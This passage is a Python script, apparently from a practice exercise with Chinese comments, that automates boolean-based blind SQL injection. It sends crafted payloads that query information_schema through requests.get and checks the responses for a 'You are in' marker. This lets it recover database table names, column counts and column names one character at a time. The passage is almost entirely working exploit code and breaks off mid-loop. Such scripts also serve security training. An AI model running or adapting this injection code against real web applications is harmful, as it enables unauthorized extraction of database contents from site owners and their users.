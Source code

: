 	#数据库表名
	for i in range(table_num):
	    # 获取数据表名
	    table_names = ''
	    for j in range(1, table_lenlist[i]+1):
	        for k in range(left, right):
	            db_payload = "' and ascii(substr((select table_name from information_schema.tables where table_schema='%s' limit %d,1),%d,1))=%d--+" % (db_name, i, j, k)
	            #print(url+db_payload)
	            r = requests.get(url+db_payload)
	            if "You are in" in r.text:
	                table_names += chr(k)
	                print("当前表名猜解：", table_names)
	                break
	    table_namelist.append(table_names)
	print("当前数据表名:\n[+]", table_namelist)
	
	#数据列数
	print("各个数据表列数...")
	for i in range(table_num):
	    #print(i)
	    column_num = 0
	    for j in range(1, 21):
	        db_payload = "' and %d=(select count(column_name) from information_schema.columns where table_name='%s')--+" % (j, table_namelist[i])
	        #print(url + db_payload)
	        r = requests.get(url+db_payload)
	        if "You are in" in r.text:
	            column_num = j
	            #print("[+]"+table_namelist[i]+"表列数:"+ str(column_num))
	            column_numlist.append(column_num)
	            break
	print("[+]数据表列数", column_numlist)
	
	#猜解列长度
	print("猜解列长度....")
	for i in range(column_numlist[3]):
	    column_len = 0 #列名长度
	     #获取列长度
	    for j in range(1, 21):
	        db_payload = "' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit %d,1),%d,1))--+" % (i, j)
	        #print(url + db_payload)
	        r = requests.get(url + db_payload)
	        if "You are in" not in r.text:
	            column_len = j - 1
	            break
	    column_lenlist.append(column_len)
	print('user列名长度：', column_lenlist)
	
	#猜解列名
	print("猜解列名....")
	for i in range(column_numlist[3]):
	    column_names = ''
	    for j in range(1,column_lenlist[i]+1):
	        for k in range(left, right):
	            db_payload = "' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit %d,1),%d,1))=%d--+" % (
	                i, j, k)
	            #print(url + db_payload)
	            r = requests.get(url + db_payload)
	            if "You are in" in r.text:
	                column_names += chr(k)